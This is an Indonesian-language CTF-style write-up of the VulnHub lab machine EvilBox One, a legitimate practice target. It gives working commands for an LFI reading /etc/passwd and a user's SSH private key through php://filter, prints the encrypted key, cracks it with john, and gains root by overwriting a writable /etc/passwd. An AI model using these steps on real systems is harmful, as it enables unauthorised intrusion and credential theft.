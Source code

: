 ```yaml
---
title: "Writeup Machine EvilBox One VulnHub"
author: Ibnu Ubaeydillah
layout: post
comments: true
permalink: /Writeup-Machine-EvilBox-One-VulnHub/
tags: [writeup, all-post]
---
```

Selamat pagi, ini adalah writeup ketiga saya, yang saya buat. pada tulisan kali ini akan berjudul ``Writeup Machine EvilBox One VulnHub``, untuk mesinnya sendiri saya dapat dari [vulhub.com]('https://vulnhub.com'), bagi temen-temen yang ingin mencobanya juga silakan bisa download disini ya [EvilBox One](https://www.vulnhub.com/entry/evilbox-one,736/). 
<h2>Scan Open Ports</h2>
Yang pertama biasa saya lakukan adalah melakukan scanning port, untuk melihat port apa saja yang terbuka pada sistem.
```
sudo nmap -sV -sC -vv evilbox.thm
```
<br><center><img src="https://user-images.githubusercontent.com/28418984/184517553-57a9a662-d696-464c-b26a-5ea61eb9f573.png"></center>
<h2>Enumerate Webserver</h2>
disini saya melakukan proses bruteforce direktori pada sistem dan menemukan direktori ``/secret`` kemungkinan ini adalah kunci untuk masuk ke shell.

```
gobuster dir -r -u http://evilbox.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

```
<br><center>
<img src="https://user-images.githubusercontent.com/28418984/184518826-be098476-4860-4869-b495-2d589045289a.png">
</center>

lalu saya kembali melanjutkan enumerate dan menemukan lagi informasi yang baru di dalam direktori ``/secret/`` ternyata ada file ``evil.php``.
```
gobuster dir -r -u http://evilbox.thm/secret/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
<br>
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184518960-25bab359-1c86-4972-bfbc-1ec7f9a70b26.png">
</center>
<h2>Get vulnerability</h2>
saya melanjutkan dengan teknik bruteforce tetapi menggunakan ``FUZZ``
```
ffuf -c -r -u 'http://evilbox.thm/secret/evil.php?FUZZ=/etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 0
```
<br>
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184519090-1fe06f97-af5f-487b-9cb0-dd86c29e6ee8.png">
</center>
tenyata terdapat vulnerability pada halaman ``http://evilbox.thm/secret/evil.php`` yaitu berupa ``LFI`` untuk memastikannya bahwa memang benar bug ``LFI`` disini saya mencoba ``curl``.
```
curl 'evilbox.thm/secret/evil.php?command=/etc/passwd'
```
<br>
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184519253-bfb13042-5479-43f7-8db4-1cb9675d8ac9.png">
</center>
<h2>Get Shell</h2>
Lalu saya mencoba melakukan teknik yang bernama ``PHP Wrapper``, digunakan untuk melihat source code dari file ``evil.php`` dengan memasukan perintah berikut.
```
curl 'evilbox.thm/secret/evil.php?command=php://filter/convert.base64-encode/resource=evil.php'
```
kemudian saya decode base64 tersebut dan ternyata isinya adalah 
```
<?php
    $filename = $_GET['command'];
    include($filename);
?>
```
karena disini bisa menggunakan teknik ``PHP Wrapper`` saya coba untuk melihat file ``/etc/passwd``
```
curl 'evilbox.thm/secret/evil.php?command=php://filter/convert.base64-encode/resource=/etc/passwd'
```
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184537167-ccec2e9e-2341-4535-bd34-48f21bbc8f73.png">
</center>
setelah saya decode base64 tersebut isinya seperti ini.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```
Disini say fokus pada user ``mowree`` dan mencoba untuk melihat ``id_rsa``nya apakah ada atau tidak, saya memasukan perintah berikut ini.
```
curl 'evilbox.thm/secret/evil.php?command=php://filter/convert.base64-encode/resource=/home/mowree/.ssh/id_rsa'
```
lalu saya decode lagi base64 tersebut dan isinya seperti ini, ternyata di encode ``id_rsa``nya.
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```
kemudian saya simpan ``mowree`` tersebut tetapi sebelumnya chmod terlebih dahulu dengan printah ``chmod 600 mowree`` dan nantinya saya akan menggunakan ``ssh2john`` untuk membuka encode tersebut dengan perintah.

```
ssh2john mowree | tee hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
<br>
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184537491-3fc8c34f-79a7-4b7b-8c0e-86788640fb82.png">
</center>
jadi password dari user ``mowree` adalah ``unicorn``, kemudian saya mencoba untuk login kedalam ssh.
``ssh -i mowree mowree@evilbox.thm`` ternyata berhasil passwordnya benar.
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184537694-98f7f01f-a609-4609-8242-ac376a882da9.png">
</center>
<h2>Get User Root</h2>
setelah berhasil masuk ke shell, saya langsung mendownload [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) untuk menganalisa ``Privilege Linux`` ini. ternyata pada direktori ``/etc/passwd`` bisa kita ``write``.
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184537900-06c7af8c-d938-4694-901c-d23e386afc74.png">
</center>
kemudian saya jalankan perintah ``openssl passwd -1`` dan masukan kalimat ``root``, sebenernya bebas ini mau dimasukan kata sandi apa saja. setelah memasukan kata sandinya maka akan menghasilkan ``hash`` nah hash inilah yang nantinya akan digunakan untuk mengganti tulisan ``x`` pada user ``root``.

```
pada tulisan ini ada tulisan x
root:x:0:0:root:/root:/bin/bash
tulisan x ini diganti menjadi
root:$1$zlwVtUdZ$GstF6vF3FKN.50qeaU9LO/:0:0:root:/root:/bin/bash
```
<br>
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184538154-43392f76-4ba4-4d9c-af33-dafcaeb65003.png">
</center>
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184538274-94b3203e-8fcc-430b-bc38-a171f564cadb.png">
</center>
sekarang masukan perintah ``sudo -l root`` dan masukan password ``root``, tadaaa sekarang berhasil menjadi user ``root``
<center>
	<img src="https://user-images.githubusercontent.com/28418984/184538378-d77431f1-2eed-45e7-9ee1-83157cdab8db.png">
</center>
Cukup sekian pada writeup ketiga kali ini, semoga bermanfaat. Terima kasih.